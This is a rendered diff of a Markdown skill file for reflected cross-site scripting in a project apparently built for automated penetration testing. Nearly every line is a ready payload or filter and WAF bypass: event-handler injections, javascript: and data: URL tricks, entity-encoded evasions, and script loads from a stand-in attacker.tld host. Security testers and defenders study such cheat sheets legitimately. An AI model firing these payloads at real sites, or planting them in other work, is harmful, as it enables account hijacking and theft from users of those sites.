

Before and after one commit to Uname58/HackMate, a Markdown page: skills/xss/reflection_xss.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/skills/xss/reflection_xss.md
+++ b/skills/xss/reflection_xss.md
@@ -37,7 +37,7 @@
 - Single-quoted: `'><svg onload=alert(1)>`, `' onmouseover=alert(1) x='`, `' autofocus onfocus=alert(1) x='` (when `<`/`>` are entity-encoded so tag breakout impossible but single quote is not escaped, inject an event attribute inside the value — no `>` needed; `autofocus onfocus` fires immediately on focusable elements like `<input>`/`<select>`/`<textarea>`).
 - **Unquoted attribute: quotes are literal, never break out.** Use whitespace or `>` to end value: ` onmouseover=alert(1) `, ` autofocus onfocus=alert(1)`, `><script>alert(1)</script>`. Entities decode into value, don't affect tokenizer.
 - Attribute name position (inside open tag): ` x onload=alert(1) ` — needs leading space; if glued to tag name, close tag first. Attribute names are lowercased, so case filters only.
-- Slash as separator when spaces filtered: `<svg/onload=alert(1)>`, `<script/src=//attacker.tld/x>`.
+- Slash as separator when spaces filtered: `<svg/onload=alert(1)>`, `<script/src=//attacker.tld/x>`. **But in tag attribute separation, `/` is NOT a valid whitespace separator — it gets parsed as part of the attribute name. Use `%0a`, `%09`, `%0c`, `&Tab;`, or `&NewLine;` instead.**
 - Existing `on*` string value: `';alert(1)//`, `'-alert(1)-'`; if both quotes escaped, use `</script>` breakout or close tag.
 - Existing `<script src="…">`: set `src="//attacker.tld/x"` and serve JS.
 - `href`/`src`/`action`/`formaction`/`data`/`poster`/`xlink:href`: `javascript:alert(1)`, `javascript:alert(1)//`, `javascript&colon;alert(1)`; `<form action=javascript:alert(1)><input type=submit>`, `<button formaction=javascript:alert(1)>x`, `<base href=//attacker.tld/>` to hijack relative `<script src>`/`<a href>`. `iframe src=javascript:`/`object data=javascript:` are inconsistent across browsers — only report after confirmed execution.
@@ -81,11 +98,12 @@
 ## Filter & WAF bypass
 - `<script>` blocked → event-driven tags, `<svg/onload=alert(1)>`, `<a href=javascript:alert(1)>`, `srcdoc`.
 - `on\w+=` blocked → `<svg><script>alert(1)</script>`, `javascript:` URL attributes, `srcdoc`. When `on*` and `<script` are both string-substituted/filtered but `<` and `>` pass through unchanged, use a `data:` URL to embed a full script without `<script>` in the raw payload: `<iframe src="data:text/html,%3Cscript%3Ealert(1)%3C/script%3E">`, `<object data="data:text/html,%3Cscript%3Ealert(1)%3C/script%3E">`, `<embed src="data:text/html,%3Cscript%3Ealert(1)%3C/script%3E">`. URL-encode `<script>`/`</script>` as `%3Cscript%3E`/`%3C/script%3E` to dodge keyword filters; the browser decodes inside the iframe/object and executes. `<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;">` also works when the reflected value is an HTML attribute.
+- **When `on` is globally replaced (e.g. `on`→`o_n`) and `<script` is replaced (e.g. `<script`→`<scr_ipt`) but `<`/`>` remain: avoid all event handlers and script tags entirely. Use `<iframe src="data:text/html,%3Cscript%3Ealert(1)%3C/script%3E">` or `<object data="data:text/html,%3Cscript%3Ealert(1)%3C/script%3E">`. The `data:` URL payload does not contain the literal characters `on` or `<script`, so the filter leaves it unmodified.** Same approach applies when only `on` is filtered but `script` is not, but `script` tag is blocked by other means.
 - Quotes blocked → unquoted attribute `<img src=x onerror=alert(1)>`, ` onmouseover=alert(1) `.
 - Parentheses blocked → entities in handler values are decoded: `<svg onload=alert&#40;1&#41;>`; named entities `&lpar;`/`&rpar;`; tagged template ``onload=alert`1` ``; `<svg onload=alert;throw 1>`.
 - `<` and `>` blocked → stay in JS/URL context: `alert(1)`, `javascript:alert(1)`, or `%3c`/`%253c`/`&#x3c;` if decode pass after filtering.
 - `>` only blocked → omit it: `<img src=x onerror=alert(1)` (EOF closes tag).
-- Spaces blocked → `/`, tab, `%0a`, `%0c`, `/**/`, `&Tab;`, `&NewLine;`.
+- Spaces blocked → **never use `/` as attribute separator; it is not parsed as whitespace in HTML.** Use tab, `%0a`, `%0c`, `/**/`, `&Tab;`, `&NewLine;`. Example: `<img%0asrc=x%0aonerror=alert(1)>`. If the server replaces spaces with `&nbsp;`, that entity decodes to a non-breaking space `\u00a0`, which does NOT separate HTML attributes — switch to newline/tab.
 - `javascript:` blocked → `JaVaScRiPt:`, `java\tscript:`, `jav&#x0a;ascript:`, `jav&#x61;script:`, `&#106;avascript:`, `javascript&colon;alert(1)`, `//attacker.tld`. If the backend lowercases before matching keywords, case mixing is useless; instead HTML-encode key letters: decimal `&#115;` = s, hex `&#x73;` = s, un-semicoloned `&#115` also works — `java&#115;cript:alert(1)`, `jav&#x61;script:alert(1)`, `&#106;avascript:alert(1)`. The browser decodes numeric entities in attribute values before the scheme is interpreted. If the app additionally requires the value to contain `http://` for link validation, append `//http://` as a JS comment after the payload.
 - `alert` blocked → `prompt(1)`, `confirm(1)`, `print()`, `(alert)(1)`, `top['al'+'ert'](1)`, `\u0061lert(1)`, `[].constructor.constructor('alert(1)')()`, `globalThis['al\u0065rt'](1)`.
 - Keyword blocklist on `script` → `<ScRiPt>`, `<scr<script>ipt>`, `<script x>`, `script\nsrc=`, `<script/src=//x>`.
@@ -103,7 +121,7 @@
 - `strip_tags` → keeps attributes of allowed tags; inject into allowed tag's attribute or stray `<`.
 - Case-sensitive `str_replace` → `<ScRiPt>`, `OnErRoR=`.
 - Decode order: filter after decoding → `&#x3c;` blocked; filter before browser decode → `&#x3c;script&#x3e;` lands live.
-- **Entities never decode inside `<script>`** — `&quot;`/`&lt;` stay literal. They decode in text nodes and attribute values → `&#x3c;` is real `<`, `&colon;` is `:`.
+- **Entities never decode inside `<script>`** — `&quot;`/`&lt;` stay literal. They decode in text nodes and attribute values → `&#x3c;` is real `<`, `&colon;` is `:`. In event-handler attributes, entity decoding happens before the JavaScript engine parses the handler code, so `&apos;` becomes `'` and bypasses JS-string escaping.
 - Server output + reachable DOM sink = double-decode XSS: single-encoded reflection + `innerHTML`/`eval`/`$.html()`.
 - Sanitizer output re-parsed by client is mXSS fingerprint — look for cached sanitized HTML that gets re-serialized.
 - DOMPurify/Trusted Types: check version, `ADD_ATTR`/`ALLOW_UNKNOWN_PROTOCOLS`/`ALLOWED_URI_REGEXP`, and whether `require-trusted-types-for 'script'` enforced. TT kills most HTML sinks unless policy exposes `createHTML` passthrough.
```
Also changed, not shown: other parts of skills/xss/reflection_xss.md (+19 -0 lines).
